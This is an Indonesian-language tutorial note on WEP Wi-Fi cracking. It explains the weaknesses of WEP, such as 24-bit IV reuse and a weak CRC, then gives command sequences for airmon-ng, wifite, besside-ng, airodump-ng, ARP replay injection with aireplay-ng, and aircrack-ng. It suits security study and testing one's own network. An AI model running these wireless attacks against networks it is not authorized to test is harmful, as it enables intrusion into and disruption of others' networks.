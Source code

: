 # WEP Hacking
#wireless #encryption 

Key: 
- Packet injection
- 24 - bit IV

## Karakteristik
WEP menggunakan RC4 stream cipher dengan kunci sebanyak 64-bit atau 128-bit. Jika dikurangi dengan total IV nya, maka sebenarnya kunci yang benar-benar dipakai adalah
- `40 / 64 bit` . Karena menggunakan 40-bit key, kuncinya hanya membutuhkan 5 karakter $5*8=40$ (pada ASCII, tiap karakter = 8 bit atau 1 byte) atau 10 karakter hex.
- `104 / 128 bit` . Passphrase 13 karakter ASCII atau 26 karakter hex.

## Vulnerability
- WEP menggunakan 24-bit IV, yang mana dianggap lemah secara kriptografi. Pada 24-bit IV, ada kemungkinan 50% IV yang sama akan terulang setelah 5.000 paket. Sehingga sangat rentan pada lokasi yang sangat sibuk. Hal ini menyebabkan WEP mudah dijebol. Packet injection untuk mengirimkan bogus packet juga menyebabkan WEP makin cepat dipecahkan. 
- Dari 64-bit kunci, hanya 40-bit yang bersifat rahasia. Begitu pula pada versi 128-bit kunci yang hanya ada 104-bit yang bersifat rahasia.
- Pengiriman IV sendiri adalah dalam plain text, sehingga mempermudah attacker untuk melakukan recovery kunci dari rotasi 24 bit IV.
- 32 bit CRC / ICV (Integrity Check Value) sehingga lemah terhadap tampering dan bit flipping attack.

**Teknik serang:** Attacker bisa memaksa IV yang sama digunakan untuk yang kedua kali dengan melakukan replay network traffic dengan jumlah yang sangat banyak.


## Eksploitasi
Untuk tes eksploitasi, gunakan wifi sendiri dengan setting bit kunci berjumlah kecil `40/64 bit`. Tujuannya untuk mempercepat proses dari WEP hacking itu sendiri. Inisiasi serangannya adalah:
```sh
# masuk ke monitoring mode
airmon-ng start wlan0

# apabila terdapat kendala proses
airmon-ng check kill
```

Menggunakan **wifite** untuk cracking WEP dan menggunakan random MAC address. Tools ini dapat melakukan otomasi serangan airodump, aireplay, dan aircrack.
```sh
wifite --wep --mac
```

Menggunakan bessid-ng.
```sh
# untuk mendapatkan .pcap
besside-ng -c _ChannelTargetIsOn_ -b _BSSIDofTargetNetwork_ _NameOfInterfaceCard_

besside-ng -b 7C:CA:ED:A4:9B:EE -c 11 wlan0mon

# collect the IVs (Initialization Vectors) from the something.cap file
aircrack-ng ./wep.cap
```


Old but gold technique, untuk memahami proses cracking dari WEP. Serangan dari aireplay-ng akan diulang setiap 5000 IVs sampai berhasil.
```sh
# melihat WEP yang ada di sekitar
sudo airodump-ng wlan0mon --encrypt WEP

# tentukan bssid yang digunakan, channel yang digunakan, masukkan capture ke WEPcrack.pcap file
airodump-ng --bssid 00:09:5B:6F:64:1E -c 11 -w WEPcrack mon0

# apabila tidak ada traffic, kita bisa inject ARP traffic (untuk mempercepat proses mendapatkan reused IV + key) - cafe latte attack
aireplay-ng -3 -b 00::09:58:6F:64:1E -h 44:60:57:c8:58:A0 mon0

# crack
aircrack-ng WEPcrack-01.cap

# kalau belum ter-crack
aircrack-ng WEPcrack-02.cap
```


## Kesimpulan
Kecuali buat nangkap script kiddies sedang melakukan hacking, tidak ada alasan lain untuk menggunakan WEP.


## Sumber
- https://null-byte.wonderhowto.com/how-to/hack-wi-fi-hunting-down-cracking-wep-networks-0183712/
- https://en.wikipedia.org/wiki/Initialization_vector
- https://teckk2.github.io/wifi%20pentesting/2018/07/20/Hacking-WEP.html
- https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy#:~:text=Most%20devices%20also%20allow%20the%20user%20to%20enter%20it%20as,128%20bits%20of%20WEP%20key).
- https://www.youtube.com/watch?v=ab6GYvKxfV0
